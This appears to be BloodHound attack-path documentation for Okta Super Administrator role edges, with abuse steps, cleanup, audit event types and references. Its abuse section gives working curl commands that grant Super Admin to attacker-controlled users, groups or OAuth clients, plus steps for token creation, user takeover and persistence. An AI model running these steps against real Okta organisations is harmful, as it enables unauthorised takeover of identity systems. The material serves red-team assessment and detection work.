

## General Information

The traversable Okta_SuperAdmin edges represent Super Administrator role assignments to the Okta organization. Super Administrators have full access to all features and settings in the Okta organization.


```mermaid
graph LR
    u1("Okta_User john\@contoso.com")
    app1("Okta_Application Service Account")
    org("Okta_Organization contoso.okta.com")
    u1 -- Okta_SuperAdmin --> org
    app1 -- Okta_SuperAdmin --> org
```

## Abuse Info

An attacker who controls the source principal has full administrative control over the destination Okta organization. A Super Administrator can create or modify admins, manage users and groups, manage applications and identity providers, change policy, rotate credentials, create API tokens, and disable or weaken controls. If the source is an application, authenticate as that application and use its management API access. If the source is a group, compromise any group member first.

Using the Admin Console:

1. Authenticate as the source user, group member, or service application.
2. Create or select an attacker-controlled Okta user.
3. Open **Security** > **Administrators** and assign that user the Super Administrator role, or assign an admin role to a controlled group or service app.
4. Create a new API token, OAuth service app credential, or private key if durable API access is needed.
5. Reset passwords and authenticators for target users, add the attacker to privileged groups, assign sensitive apps, rotate app credentials, or modify identity provider and policy configuration.
6. Establish durable access by adding controlled authenticators, credentials, role assignments, app credentials, or IdP configuration that survives the initial session.

Using the Okta API:

1. Set the Okta org URL, a token for the source principal, and the controlled principal ID.

    ```bash
    export OKTA_ORG="https://contoso.okta.com"
    export OKTA_API_TOKEN="REDACTED"
    export CONTROLLED_USER_ID="00u..."
    export CONTROLLED_GROUP_ID="00g..."
    export CONTROLLED_CLIENT_ID="0oa..."
    ```

2. Assign the Super Administrator standard role to a controlled user.

    ```bash
    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      "$OKTA_ORG/api/v1/users/$CONTROLLED_USER_ID/roles" \
      -d '{"type":"SUPER_ADMIN"}'
    ```

3. Or assign the role to a controlled group so any member can inherit the privilege.

    ```bash
    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      "$OKTA_ORG/api/v1/groups/$CONTROLLED_GROUP_ID/roles" \
      -d '{"type":"SUPER_ADMIN"}'
    ```

4. Or assign a standard admin role to a controlled OAuth client/service app when the tenant supports client role assignments.

    ```bash
    curl -sS -X POST \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      -H "Content-Type: application/json" \
      "$OKTA_ORG/oauth2/v1/clients/$CONTROLLED_CLIENT_ID/roles" \
      -d '{"type":"SUPER_ADMIN"}'
    ```

5. Verify the new administrative path by listing role assignments.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$CONTROLLED_USER_ID/roles" \
      | jq -r '.[] | [.id, .type, .status] | @tsv'
    ```

6. Use the new admin identity to perform the downstream action required by the attack path, such as group membership, app assignment, credential rotation, IdP modification, or user takeover.

## Cleanup after Abuse

Cleanup removes temporary Super Admin-created access, role assignments, credentials, IdP or policy changes, authenticators, and downstream access created during full organization control.

Cleanup using Admin Console:

1. Open **Security** > **Administrators** and remove temporary admin role assignments.
2. Remove temporary users, group memberships, app assignments, authenticators, credentials, IdP changes, and policy changes created during the operation.
3. Rotate exposed app secrets, API tokens, private keys, and IdP signing material.
4. Clear sessions for users or service identities used during the operation where possible.
5. Verify Okta and downstream applications no longer grant the temporary access.

Cleanup using API:

1. List and remove temporary user role assignments.

    ```bash
    curl -sS \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$CONTROLLED_USER_ID/roles"

    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$CONTROLLED_USER_ID/roles/$ROLE_ASSIGNMENT_ID"
    ```

2. Remove temporary group or client role assignments with the matching principal-specific API.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$CONTROLLED_GROUP_ID/roles/$ROLE_ASSIGNMENT_ID"

    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/oauth2/v1/clients/$CONTROLLED_CLIENT_ID/roles/$ROLE_ASSIGNMENT_ID"
    ```

3. Remove temporary group membership and app assignments.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/groups/$TARGET_GROUP_ID/users/$CONTROLLED_USER_ID"

    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/apps/$TARGET_APP_ID/users/$CONTROLLED_USER_ID"
    ```

4. Rotate or deactivate exposed app secrets, API tokens, private keys, and IdP signing material.
5. Revoke user sessions and OAuth tokens for identities used during the operation.

    ```bash
    curl -i -sS -X DELETE \
      -H "Authorization: SSWS $OKTA_API_TOKEN" \
      -H "Accept: application/json" \
      "$OKTA_ORG/api/v1/users/$CONTROLLED_USER_ID/sessions?oauthTokens=true&forgetDevices=true"
    ```

6. Verify controlled users, groups, and clients no longer have admin roles and that downstream applications no longer grant the temporary access.

## Opsec Considerations

Super Administrator actions are among the most heavily audited Okta events. Relevant event types include `user.account.privilege.grant`, `user.account.privilege.revoke`, `group.privilege.grant`, `group.privilege.revoke`, `app.oauth2.client.privilege.grant`, `app.oauth2.client.privilege.revoke`, `system.api_token.create`, `app.oauth2.credentials.lifecycle.create`, `app.oauth2.credentials.lifecycle.activate`, `app.oauth2.credentials.lifecycle.deactivate`, `app.oauth2.credentials.lifecycle.delete`, `application.lifecycle.update`, `system.idp.lifecycle.update`, and `policy.lifecycle.update`.

New Super Admin assignments, API token creation, app credential rotation, IdP changes, and policy changes should be treated as high-signal activity. The API path records the caller, source IP, client, request URI, target principal, role type, and role assignment ID.

## References

- [Okta Super administrators](https://help.okta.com/oie/en-us/content/topics/security/administrators-super-admin.htm)
- [Okta Roles in Okta](https://developer.okta.com/docs/api/openapi/okta-management/guides/roles/)
- [Okta User Role Assignments API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/RoleAssignmentAUser/)
- [Okta Group Role Assignments API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/RoleAssignmentBGroup/)
- [Okta Client Role Assignments API](https://developer.okta.com/docs/api/openapi/okta-management/management/tag/RoleAssignmentClient/)
- [Okta System Log event types](https://developer.okta.com/docs/reference/api/event-types/)
- [SpecterOps: Discovering Unexpected Okta Attack Paths with BloodHound](https://specterops.io/blog/2026/03/23/discovering-unexpected-okta-attack-paths-with-bloodhound/)
- [Okta Post-Exploitation Toolkit](https://github.com/xpn/OktaPostExToolkit)
